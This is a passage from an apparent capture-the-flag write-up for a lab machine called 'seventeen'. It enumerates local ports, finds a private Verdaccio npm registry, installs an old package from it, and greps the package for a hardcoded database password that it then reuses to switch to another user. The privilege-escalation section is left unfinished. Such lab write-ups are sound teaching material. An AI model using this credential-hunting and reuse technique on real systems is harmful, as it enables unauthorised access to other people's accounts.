tcp        0      0 127.0.0.1:6004          0.0.0.0:*               LISTEN      -

tcp        0      0 127.0.0.1:6005          0.0.0.0:*               LISTEN      -

tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -

tcp        0      0 127.0.0.1:6006          0.0.0.0:*               LISTEN      -

tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -

tcp        0      0 127.0.0.1:6007          0.0.0.0:*               LISTEN      -

tcp        0      0 127.0.0.1:6008          0.0.0.0:*               LISTEN      -

tcp        0      0 127.0.0.1:6009          0.0.0.0:*               LISTEN      -

tcp6       0      0 :::22                   :::*                    LISTEN      -

```

Most of them are known, except the 4873 one.

If we hit it with a curl request we'll get a verdaccio service host


```
mark@seventeen:~$ curl localhost:4873

    <!DOCTYPE html>
      <html lang="en-us">
      <head>
        <meta charset="utf-8">
        <base href="http://localhost:4873/">
        <title>Verdaccio</title>
        <link rel="icon" href="http://localhost:4873/-/static/favicon.ico"/>
        <meta name="viewport" content="width=device-width, initial-scale=1" />
        <script>
            window.__VERDACCIO_BASENAME_UI_OPTIONS={"darkMode":false,"basename":"/","base":"http://localhost:4873/","primaryColor":"#4b5e40","version":"5.6.0","pkgManagers":["yarn","pnpm","npm"],"login":true,"logo":"","title":"Verdaccio","scope":"","language":"es-US"}
        </script>

      </head>
      <body class="body">

        <div id="root"></div>
        <script defer="defer" src="http://localhost:4873/-/static/runtime.06493eae2f534100706f.js"></script><script defer="defer" src="http://localhost:4873/-/static/vendors.06493eae2f534100706f.js"></script><script defer="defer" src="http://localhost:4873/-/static/main.06493eae2f534100706f.js"></script>

      </body>
    </html>
```
> Verdaccio is a simple, zero-config-required local private NPM registry. No need for an entire database just to get started. Verdaccio comes out of the box with its own tiny database, and the ability to proxy other registries (eg. npmjs.org), also introduces caching the downloaded modules along the way.

The email above is refering to it and mentioning about using a old registry, I'll try to dump the logging if are.

```
mark@seventeen:~$ npm search log --registry http://localhost:4873
NAME      DESCRIPTION                                                  AUTHOR     DATE       VERSION KEYWORDS
db-logger Log data to a database                                       =kavigihan 2022-03-15 1.0.1   log
loglevel  Minimal lightweight logging for JavaScript, adding reliable… =pimterry  2022-05-11 1.8.0   log logger logging browser
```

db-logged should be the old one, and it's written by kavi short form of kavigihan

I'll request it with `npm install`

```
mark@seventeen:~$ npm install db-logger --registry http://localhost:4873
/home/mark
└─┬ db-logger@1.0.1
  └─┬ mysql@2.18.1
    ├── bignumber.js@9.0.0
    ├─┬ readable-stream@2.3.7
    │ ├── core-util-is@1.0.3
    │ ├── inherits@2.0.4
    │ ├── isarray@1.0.0
    │ ├── process-nextick-args@2.0.1
    │ ├── string_decoder@1.1.1
    │ └── util-deprecate@1.0.2
    ├── safe-buffer@5.1.2
    └── sqlstring@2.3.1

npm WARN enoent ENOENT: no such file or directory, open '/home/mark/package.json'
npm WARN mark No description
npm WARN mark No repository field.
npm WARN mark No README data
npm WARN mark No license field.
```

If we enumerate for password we got this results:

```
mark@seventeen:~$ grep -r "password:" .
./node_modules/db-logger/logger.js:  password: "IhateMathematics123#",
./node_modules/mysql/lib/protocol/sequences/ChangeUser.js:    password: this._password
./node_modules/mysql/lib/protocol/sequences/Handshake.js:    password: this._config.password
```

Cool! we can shell as kavi with `IhateMathematics123#`

## Shell as root | PE

To be continued.